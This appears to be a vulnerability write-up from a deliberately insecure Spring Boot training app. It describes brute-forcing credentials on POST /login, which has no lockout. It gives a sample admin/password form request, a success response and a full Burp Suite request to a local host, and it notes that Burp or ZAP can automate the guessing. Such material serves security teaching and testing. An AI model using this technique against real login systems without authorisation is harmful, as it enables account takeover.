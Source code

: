 # Brute-Force Username and Password
A type of brute force attack that cracks valid user credentials not belonging to the attacker.

## Exploitation
**Prerequisites:** _None_

**Location:** _POST /login_

Brute-Force username and password present within SpringBoot code by not blocking access after consecutive failed login attempts in a short period of time (or other alternative controls).  Below is an exploitation example:

    POST /login
    form-data:
        "username": "admin"
        "password":"password"
    
Burp Suite, ZAP, or equivalent technologies can be used to automate brute-forcing attempts against the web application using the general format above.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Login successfully"
    }

NOTE: This vulnerability, unlike the rest, uses _form-data_ not _raw_

## Burp Suite Example Exploitation

    POST /login HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 247
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykDdQnbEDir7hau67
    X-XSRF-TOKEN: a299d1a2-b857-4b7a-a83f-d656c7b9f48e
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=a299d1a2-b857-4b7a-a83f-d656c7b9f48e
    Connection: close

    ------WebKitFormBoundarykDdQnbEDir7hau67
    Content-Disposition: form-data; name="username"

    admin
    ------WebKitFormBoundarykDdQnbEDir7hau67
    Content-Disposition: form-data; name="password"

    password
    ------WebKitFormBoundarykDdQnbEDir7hau67--
